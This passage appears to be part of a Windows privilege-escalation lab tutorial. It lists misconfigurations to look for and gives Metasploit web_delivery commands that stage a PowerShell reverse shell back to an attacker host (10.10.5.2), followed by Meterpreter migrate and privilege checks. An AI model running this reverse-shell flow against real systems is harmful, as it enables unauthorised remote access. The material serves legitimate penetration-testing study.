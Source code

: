 Privesc tools report many things — prioritize:

* **Weak service executable permissions** (service binary writable by non-admin) → can replace binary and restart service.
* **Weak scheduled tasks** (task runs as SYSTEM and script/binary is writable) → replace script/binary.
* **Unquoted service paths** → DLL hijacking or executable path hijack.
* **Exposed credentials** in files (config, .xml, .git, wp-config.php).
* **Insecure permissions** on sensitive files (world-writeable).
* **Vulnerable drivers / old kernel** → local kernel exploits.
* **Service misconfigurations** (e.g., weak pipe ACLs).
* **WinLogon vulnerabilities / autologon credentials** — often easy wins.

If the script reports *credentials found*, use them carefully for lateral movement or local privilege escalation.

---

## 6) Example: using Metasploit `web_delivery` to get a shell (context from your lab)

You described using `exploit/multi/script/web_delivery` to host and deliver a PowerShell stager. Typical flow (conceptual):

```text
# In msfconsole
use exploit/multi/script/web_delivery
set TARGET 1                  # target index (PSH = PowerShell; exact index varies by version)
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.10.5.2           # where the reverse shell will connect
set PSH-EncodedCommand false  # do not base64-encode
exploit -j                    # run as a job (starts webserver)

# msf will print a PowerShell one-liner to run on victim. Paste it into victim cmd/powershell.
```

**Notes & tips**

* `TARGET` options change across versions; use `show targets` to see choices (`PSH`, `VBS`, etc.).
* If PowerShell is restricted, set `WIN_TRANSFER` or choose `VBS` payloads (msf can generate VBS, HTA, etc.).
* After victim runs the one-liner, a session appears in msfconsole; interact and `migrate` into `explorer.exe` or similar stable process. Then run enumeration scripts.

---

## 7) Migrating & elevating

You wrote about `migrate` → that’s correct. Typical pattern in Meterpreter:

```text
# after session opens
sysinfo
ps          # find explorer.exe PID (or other stable process)
migrate <PID-of-explorer>
getprivs    # check privileges (if any)
```
